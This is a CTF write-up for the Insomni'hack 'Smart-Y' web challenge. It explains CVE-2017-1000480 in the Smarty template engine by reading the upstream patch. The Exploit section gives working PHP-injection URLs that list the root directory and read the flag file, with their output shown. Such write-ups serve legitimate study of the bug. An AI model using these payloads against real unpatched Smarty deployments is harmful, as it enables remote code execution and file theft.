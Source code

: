 # Smart-Y

This challenge was the second most flagged Web challenge of the CTF.

## Description

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description evokes a previous challenge from Insomni'hack 2017. We
therefore started by looking for the
[writeup](https://terryvogelsang.tech/insomnihack-2017-nerdwar/) of this
challenge. At this point, it seems likely that the website uses the Smarty
framework - which is confirmed by the name of the challenge - and that the
SQLi as well as the template injection from the previous edition have been
patched.

The output of `dirb` indicates that the **smarty** directory exists and contains
the following **changelog.txt** file:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```

The functionality that was vulnerable to SQL injection through the fetch
function before has been deactivated.
However, the display function is still available:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version of Smarty is vulnerable to
[CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/).
Unfortunately, we couldn't find any public exploit for it. After digging through
the repository of Smarty, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61)
introducing a patch.


The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

The patch prevents the user from closing the comment with `*/`.
Since the website uses a version of Smarty that doesn't contain this patch,
we should be able to **close the comment and inject our own code**.

Let's try it.
 
## Exploit
 
1. We start by listing the root directory by visiting the following URL:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*`.

This outputs the following result:
```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```

2. It worked! Now that we got the path to the flag, all that's left is to
actually print it by visiting:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*`.

Aaaand, here's the flag:

**string(26) "INS{why_being_so_smart-y}"**

## Conclusion

Smart-Y was a really nice challenge, which mainly required to carefully read
a patch. Funnily enough, it seems that the patch is not yet available in a
stable Smarty release.
